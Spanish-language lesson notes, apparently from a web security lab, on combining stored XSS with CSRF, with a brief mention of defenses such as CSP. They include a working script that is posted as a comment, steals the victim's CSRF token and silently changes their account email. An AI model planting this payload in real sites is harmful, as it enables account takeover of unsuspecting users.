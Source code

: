 Esta lección continúa el ataque iniciado previamente, donde explotamos una vulnerabilidad de XSS almacenado para comprometer la protección CSRF de la aplicación.

En este caso, consolidamos la explotación automatizando todo el flujo: cuando una víctima visualiza el comentario malicioso, su navegador realiza una petición a su propia página de perfil, extrae el token CSRF del formulario oculto, y lo reutiliza inmediatamente para enviar una petición de cambio de correo electrónico sin que el usuario lo sepa.

Este enfoque permite realizar una acción sensible —como modificar información de cuenta— sin interacción directa por parte de la víctima, utilizando su sesión activa y su token legítimo.

La clase demuestra cómo XSS y CSRF pueden combinarse para romper la lógica de seguridad de muchas aplicaciones, y por qué es crucial implementar defensas adicionales como el uso de encabezados personalizados, políticas de contenido restrictivas (CSP), y el aislamiento del contenido generado por el usuario del contexto de ejecución del frontend.

Solucion seguimos con el codigo
![Pasted image 20250717181112.png](imagenes/Pasted image 20250717181112.png)
<script>
  var req = new XMLHttpRequest(); 
  req.open("GET", "/my-account", false); 
  req.send();
  var response = req.responseText;
  var csrf_token = response.match(/name="csrf" value="(.*?)"/)[1];
  var req2 = new XMLHttpRequest();
  req2.open('POST', '/my-account/change-email', true);
  req2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  var data = "email=" + encodeURIComponent("pwned@pwned.com") + "&csrf=" + encodeURIComponent(csrf_token); 
  req2.send(data);
</script>

y lo ideal seria ponerlo en la seccion de comentarios
![Pasted image 20250717181635.png](imagenes/Pasted image 20250717181635.png)
